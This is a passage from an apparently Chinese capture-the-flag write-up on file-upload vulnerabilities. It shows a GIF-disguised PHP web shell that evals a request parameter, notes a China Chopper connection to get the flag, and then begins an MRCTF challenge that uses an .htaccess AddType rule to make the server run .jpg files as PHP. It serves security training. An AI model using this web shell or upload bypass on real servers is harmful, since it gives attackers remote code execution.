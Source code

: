 ```
GIF89a
&lt;script language="php"&gt;eval($_REQUEST['attack'])&lt;/script&gt;


```

可成功上传： <img src="https://img-blog.csdnimg.cn/20210609101648255.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述">猜测上传的路径为 /upload，成功访问 phtml 文件： <img src="https://img-blog.csdnimg.cn/20210609101806994.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述">5、菜刀连接，获得 Flag： <img src="https://img-blog.csdnimg.cn/20210609102128999.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述"><img src="https://img-blog.csdnimg.cn/20210609102159224.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述">

### No.15 MRCTF .htaccess 上传漏洞

1、先来看看题目：

<img src="https://img-blog.csdnimg.cn/20210611150006990.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述"><img src="https://img-blog.csdnimg.cn/20210611150021521.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述">2、发现上传 jpg 图片都不行……上传 php、php3、phtml 更不行： <img src="https://img-blog.csdnimg.cn/20210611150458922.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述"><img src="https://img-blog.csdnimg.cn/20210611150514857.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述"> 3、本题主要涉及 `.htaccess` 上传漏洞的知识，可参见 ，来看下相关核心知识： <img src="https://img-blog.csdnimg.cn/20210611145648476.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述"> 故关键是向服务器上传一个如下的`.htaccess`文件，使得服务器把 jpg 文件解析成 php 脚本：

```
AddType application/x-httpd-php .jpg


```

